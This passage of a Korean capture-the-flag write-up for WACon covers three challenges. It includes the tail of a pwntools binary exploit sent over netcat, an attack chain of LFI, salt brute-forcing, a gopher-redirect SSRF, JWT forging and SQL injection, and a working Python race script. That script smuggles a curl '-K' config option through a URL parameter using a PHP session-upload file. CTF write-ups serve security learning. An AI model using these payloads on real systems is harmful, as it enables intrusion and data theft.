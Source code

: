 ```python
    f.write(md2header)

p = process(['./MeshConverter', './exp2.md2', '/dev/null'])
#p = remote('114.203.209.118', 8080)
#p.send(md2header)
#p.send(b'\4')
#p.shutdown()
p.interactive()
```

실행 후 생성된 exp2.md2 파일을 서버에 cat exp2.md2 | nc ~~ 식으로 보내주면 된다.

__Flag__ : `WACon{gjslkfjkalsdfjkladsjkfl}`



## Kuncɛlan

`fun_004ded7246` parameter에서 LFI를 통해서 코드를 얻는다.

얻고 나온 SALT + "guest" 형태를 integer range brute forcing를 통해서 SALT를 구하고 SALT + "admin" 형태의 해쉬를 얻어 임의요청이 가능하다.

SALT = 311279614

그 이후 내 서버로 쏘고, 내 서버에서는 header('Location: gopher://localhost:80/~~') 식으로 돌려 SSRF를 가능하게 할 수 있다.

그 이후 JWT를 맞춰서 SQLi를 해서 PART1, 2 플래그를 얻으면 된다.

__Flag__ : `WACon{Try_using_Gophhhher_ffabcdbc}`



## yet_another_baby_web

CURL에는 `-K` 라는 옵션이 있다. 해당 옵션은 파일로 부터 config를 읽어 curl을 실행시켜주는데 이를 이용하여 제한된 조건속에서 임의 요청을 보낼 수 있다. 

임의 파일은 PHP_SESSION_UPLOAD_PROGRESS로 올렸다.

```python
import requests
import threading

headers = {
    'Connection':'close',
    'Cookie':'PHPSESSID=asdqwer'
}

f = open('payload','rb') 
payload = f.read()
padding = b'a'*(8000000-1)
f.close()

data={
    'PHP_SESSION_UPLOAD_PROGRESS':payload,
}

def run():
  requests.post(url='http://110.10.147.146:8000/',cookies={'PHPSESSID':'aqq'}, files={"file":("filename",padding)},data=data,headers=headers)

for i in range(10):
  T = threading.Thread(target=run,args=())
  T.start()

while True:
  print('go')
  res = requests.post(url='http://110.10.147.146:8000/', cookies={'PHPSESSID':'zxcv'}, data={'url': '-K/var/lib/php/sessions/sess_asdqwer'})
```